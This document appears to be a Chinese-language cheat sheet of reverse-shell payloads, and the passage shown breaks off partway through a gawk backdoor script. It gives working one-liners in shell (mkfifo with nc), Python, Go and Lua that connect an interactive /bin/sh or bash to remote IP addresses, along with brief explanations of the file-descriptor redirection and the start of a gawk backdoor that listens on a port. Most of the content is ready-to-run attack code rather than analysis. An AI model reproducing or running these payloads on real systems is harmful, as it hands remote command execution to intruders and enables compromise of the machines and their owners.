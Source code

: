 fifo是命名管道也被称为FIFO文件，它是一种特殊类型的文件，它在文件系统中以文件名的形式存在（因为多个进程要识别），它的行为和匿名管道类似（一端读一端写），但是FIFO文件也不在磁盘进行存储。一般用于进程间的通信。

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 110.211.55.2 7777 >/tmp/f
```

- mkfifo 命令首先创建了一个管道
- cat 将管道里面的内容输出传递给/bin/sh
- sh会执行管道里的命令并将标准输出和标准错误输出结果通过 nc 传到该管道，由此形成了一个回路

## git解释性脚本语言反弹shell

### python反弹shell

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

# 拆成多行方便阅读
import os,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('ip',port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])
```

- 使用duo2方法将第二个形参（文件描述符）指向第一个形参（socket链接）
  - os.dup2(s.fileno(),0)
  - os.dup2(s.fileno(),1)
  - os.dup2(s.fileno(),2)
- 使用os的subprocess在本地开启一个子进程，启动bash交互模式，标准输入、标准输出、标准错误输出被重定向到了远程

### go反弹shell

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### lua反弹shell

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### gawk反弹shell

```shell
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
```